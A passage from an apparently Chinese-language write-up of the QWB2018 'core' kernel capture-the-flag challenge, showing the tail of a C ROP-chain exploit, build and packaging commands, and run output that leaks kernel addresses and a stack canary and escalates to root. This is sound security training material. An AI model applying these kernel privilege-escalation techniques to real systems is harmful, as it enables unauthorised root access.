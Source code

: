```C
	
	rop[i++] = user_cs;
	rop[i++] = user_rflags;
	rop[i++] = user_sp;
	rop[i++] = user_ss;

	write(fd, rop, 0x800);
	core_copy_func(fd, 0xffffffffffff0000 | (0x100));

	return 0;
}
```

### get root shell

```bash
QWB2018_core [master●●] gcc exploit.c -static -masm=intel -g -o exploit // 如果使用 intel 彙編需要加上 -masm=intel 
QWB2018_core [master●●] cp exploit give_to_player/core/tmp
cp：是否覆蓋'give_to_player/core/tmp/exploit'？ y
QWB2018_core [master●●] cd give_to_player/core
core [master●●] ./gen_cpio.sh core.cpio
.
./usr
./usr/sbin
......
......

core [master●●] mv core.cpio ..
mv：是否覆蓋'../core.cpio'？ y
core [master●●] cd ..
give_to_player [master●●] ./start.sh

/ $ ls /tmp/
exploit   kallsyms
/ $ id
uid=1000(chal) gid=1000(chal) groups=1000(chal)
/ $ /tmp/exploit
[*]status has been saved.
commit_creds addr: 0xffffffffbd09c8e0
vmlinux_base addr: 0xffffffffbd000000
prepare_kernel_cred addr: 0xffffffffbd09cce0
[*]set off to 64
[*]read to buf.
[+]canary: 0x6be486f377bb8600
[*]copy from user with size: -65280
/ # id
uid=0(root) gid=0(root)
```
當然這個題目也有其他做法，下篇再分析。
